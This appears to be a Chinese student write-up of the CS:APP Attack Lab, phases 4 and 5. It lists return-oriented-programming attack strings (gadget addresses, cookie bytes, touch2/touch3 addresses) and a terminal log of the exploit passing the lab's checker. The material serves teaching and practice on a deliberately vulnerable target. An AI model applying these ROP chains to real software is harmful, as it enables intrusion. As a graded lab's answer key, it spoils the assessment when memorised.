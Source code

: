 查找官方的write up，得知对应机器码，然后在在rtarget文件的反汇编文件中利用vim查找对应代码地址。将其放入攻击字符串，得到攻击字符串为。  

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3c 18 40 00 00 00 00 00	/*	popq rax		*/
80 93 14 63 00 00 00 00	/*	cookie			*/
49 18 40 00 00 00 00 00	/*	movq %rax,%rdi 	*/
cc 16 40 00 00 00 00 00 /*	touch2			*/
```

转换输入运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase4 | ./rtarget 
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### phase_5

此关为phase_3的ROP版本，我们需要查找start_farm到end_farm中的gadgets，拼凑出代码实现phase_3中插入代码的功能。还需注意：  

1.0x90代表nop，除了将pc加1之外不做任何事。  

2.不分双字节指令，设置标志位，不改变寄存器的值，可以使用。 

需要的指令有

```assembly
movq	%rsp,%rax
movq	%rax,%rdi
popq	%rax
movl	%eax,%ecx
movl	%ecx,%edx
movl	%edx,%esi
lea(%rdi, %rsi, 1),%rax
movq	%rax,%rdi
```

则攻击字符串为

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bd 18 40 00 00 00 00 00	/*	gadget1			*/
49 18 40 00 00 00 00 00	/*	gadget2			*/
30 18 40 00 00 00 00 00	/* 	gadget3			*/
48 00 00 00 00 00 00 00	/*	cookie字符串偏移量*/
13 19 40 00 00 00 00 00	/*	gadget4			*/
ca 18 40 00 00 00 00 00	/*	gadget5			*/
b7 18 40 00 00 00 00 00	/*	gadget6			*/
69 18 40 00 00 00 00 00	/*	gadget7			*/
49 18 40 00 00 00 00 00	/*	gadget8			*/
a0 17 40 00 00 00 00 00 /*	touch3地址   	   */
36 33 31 34 39 33 38 30 /* 	cookie字符串	  */
00
```

